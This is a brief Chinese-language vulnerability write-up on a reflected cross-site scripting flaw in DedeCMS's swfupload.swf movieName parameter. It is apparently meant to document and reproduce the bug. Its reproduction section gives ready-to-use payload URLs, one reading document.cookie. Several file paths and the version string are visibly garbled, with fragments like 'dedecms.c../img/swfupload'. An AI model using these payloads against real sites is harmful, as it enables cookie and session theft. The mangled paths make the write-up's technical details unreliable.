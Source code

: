 ```yaml
---
title: Dedecms swf文件反射型xss
id: zhfly2862
---
```


# Dedecms swf文件反射型xss

## 一、漏洞简介

DedeCMS 5.../img/swfupload/swfupload.swf文件movieName参数没有合适过滤，导致跨站脚本漏洞。

## 二、漏洞影响

## 三、复现过程

### 代码分析

详细说明：

Location: /uploa../img/swfupload/swfupload.swf

漏洞文件为：http://www.dedecms.c../img/swfupload/swfupload.swf

这个flash文件存在漏洞，此文件漏洞可参考:https://nealpoole.com/blog/2012/05/xss-and-csrf-via-swf-applets-swfupload-plupload/

### 复现

```
/images/swfupload/swfupload.swf?movieName=%22]%29}catch%28e%29{if%28!window.x%29{window.x=1;alert%28%22ian最帅%22%29}}//../img/swfupload/swfupload.swf?movieName=%22]%29}catch%28e%29{if%28!window.x%29{window.x=1;alert%28document.cookie%29}}//` 
```